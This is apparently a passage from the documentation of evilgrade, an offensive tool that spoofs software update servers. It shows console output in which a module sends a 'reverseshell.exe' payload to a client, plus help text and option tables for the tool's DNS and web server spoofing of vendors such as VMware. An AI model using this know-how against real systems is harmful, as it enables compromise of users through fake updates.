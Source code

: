 ``` console
.---------------------------------------------------------------------------------------------------------------.
| Client         | Module           | Status | Md5,Cmd,File                                                     |
+----------------+------------------+--------+------------------------------------------------------------------+
| 192.168.233.10 | modules::sunjava | send   | d9a28baa883ecf51e41fc626e1d4eed5,'',"./agent/reverseshell.exe"   |
'----------------+------------------+--------+------------------------------------------------------------------'

#######################################

show      - Display information of <object>.

#######################################

show active    - Display active modules in the webserver

#######################################

show modules    - Display implemented modules

#########################################

show options    - Display modules/global options 

Example:
-------

evilgrade>show options

Display options:
===============

.-----------------------------------------------------------------------------------.
| Name        | Default   | Description                                             |
+-------------+-----------+---------------------------------------------------------+
| DNSEnable   |         1 | Enable DNS Server ( handle virtual request on modules ) |
| DNSAnswerIp | 127.0.0.1 | Resolve VHost to ip  )                                  |
| DNSPort     |        53 | Listen Name Server port                                 |
| debug       |         1 | Debug mode                                              |
| port        |        80 | Webserver listening port                                |
| sslport     |       443 | Webserver SSL listening port                            |
'-------------+-----------+---------------------------------------------------------'

evilgrade>
evilgrade(notepadplus)>conf vmware
evilgrade(vmware)>show options (without started services)

Display options:
===============

Name = VMware Server
Version = 1.0
Author = ["Francisco Amato < famato +[AT]+ infobytesec.com>"]
Description = ""
VirtualHost = "www.vmware.com"

.----------------------------------------------.
| Name   | Default           | Description     |
+--------+-------------------+-----------------+
| enable |                 1 | Status          |
```